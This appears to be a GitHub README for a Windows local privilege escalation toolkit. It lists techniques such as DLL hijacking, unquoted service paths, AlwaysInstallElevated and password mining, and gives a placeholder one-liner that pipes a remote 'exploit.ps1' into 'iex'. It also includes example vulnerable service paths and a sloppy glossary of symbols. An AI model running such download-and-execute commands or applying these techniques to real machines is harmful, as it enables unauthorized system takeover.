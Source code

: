 
# Windows Local Privilege Escalation

This tools is developed, tested and refined by "d3hack"
Like Uncle Ben said, "With great power comes great responsibility." But in our case...
💀 With great shell access comes absolute domination. 💀

Tested on win11 pro


Primary focused to escalate privileges: 

    - DLL Hijacking

    - Service binPath
    
    - Service UnquotedPathSvc [+]
    
    - Service Registry
    
    - Service ExecFile

    - Registry Autorun
    
    - Registry AlwaysInstallelevated [+] 

    - TrustedInstaller
    
    - Password Mining (Memory/Registry/Config File)

    - Scheduled Task
    
    - Startup Application

## Authors

- [d3hack @ LinkedIn ](https://linkedin.com/in/aghayev2a)

- [d3hvck @ Github  ](https://github.com/d3hvck)

## Usage

For extremely accuracy please run every scripts one by one 

```bash
  irm https://githubrawfilelink.com/blablabla/exploit.ps1 | iex 
```

```bash
  <> operator
  - dash
  / shash
  \ revers-shlash
  = equal
  $ val / def
  ' quot
  " double quot
```

Absolute Path in quotes:

 "C:\Program Files\Vuln Service\DLL.exe"

Relative Path
Windows
cmd.exe

Vuln Service Looks Like:

 - C:\Program Files\Vuln Service x64\DLL.exe /sc /q /r 
 - C:\Program Files\Vuln.exe Service x64\DLL.exe /sc /q /r 
 - C:\Program Files\Vuln Service.exe x64\DLL.exe /sc /q /r 
 - C:\Program Files\Vuln Service x64\DLL.exe /sc /q /r 